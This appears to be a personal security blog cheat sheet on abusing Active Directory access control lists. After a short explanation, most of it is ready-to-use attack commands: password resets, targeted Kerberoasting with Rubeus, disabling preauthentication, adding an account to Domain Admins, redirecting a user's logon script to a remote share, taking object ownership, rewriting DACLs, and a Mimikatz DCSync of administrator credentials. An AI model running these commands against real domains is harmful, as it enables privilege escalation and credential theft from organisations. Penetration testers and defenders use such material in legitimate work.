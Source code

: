 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: ACL Abuse
---
```


Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
1. **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
2. **Targeted Kerberoasting**
    1. Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    2. Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    3. Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
3. **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
1. **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```bash
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
2. AllExtendedRights
- Change Password
```bash
net user <username> <password> /domain
```
- Add to Group
```bash
net group "domain admins" spotless/add /domain
Add-ADGroupMember -Identity "domain admins" -Members spotless
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
3. Self-Membership (Add to Group)
```bash
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight (User-Force-Change-Password (Password Reset))
```bash
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty (Add to Group)
```bash
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner (Change the object’s owner)
```bash
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL (Grant Generic Permissions** (must be the owner))
```bash
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```bash
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```


---
[back](../)
